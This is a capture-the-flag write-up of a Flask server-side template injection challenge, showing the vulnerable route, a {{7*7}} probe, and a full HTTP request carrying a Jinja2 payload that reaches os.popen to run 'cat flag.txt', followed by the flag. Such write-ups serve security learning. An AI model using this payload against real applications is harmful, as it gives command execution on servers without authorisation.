

# Flask SSTI
This was a really fun challenge, the first thing i try here was to check if the application was vulnerable to a server side template injection by submitting **{{7*7}}** in the username field and it's worked. Okay now how could we read the flag ? 

But let's how the application check our input 

```python
@app.route("/create_playlist", methods=["POST"])
def post_playlist():
    try:
        username = request.form["username"]
        text = request.form["text"]
        if len(text) > 10_000:
            return "Too much!", 406
        if "{{" in text or "}}" in text:
            return "Nice try!", 406
        text = [line.split(",") for line in text.splitlines()]
        text = [line[:4] + ["?"] * (4 - min(len(line), 4)) for line in text]
        filled = render_template("playlist.html", username=username, songs=text)
        this_id = str(uuid.uuid4())
        with open(f"templates/uploads/{this_id}.html", "w") as f:
            f.write(filled)
        return render_template("created_playlist.html", uuid_val=this_id), 200
    except Exception as e:
        print(e)
        return "Internal server error", 500
```
Let's break this down

The username parameter is not really check but the text yes. The application has a filter that prevents the use of {{ and }}, which are commonly used in such attacks.

## Attacking the application
Now that we valide the vulnerablity on the application we can look for the payload to use in order to retrieve the flag.
[I found this super article while trying different payload](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

Here's my final request:

```http
POST /create_playlist HTTP/2
Host: music-checkout-fc3cc523de905e37.tjc.tf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Origin: https://music-checkout-fc3cc523de905e37.tjc.tf
Referer: https://music-checkout-fc3cc523de905e37.tjc.tf/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers

username=%7B%7Brequest.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27cat+flag.txt%27%29.read%28%29%7D%7D&text=hellld
```
`payload:{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`

Et voilà tjctf{such_quirky_taste_818602f2}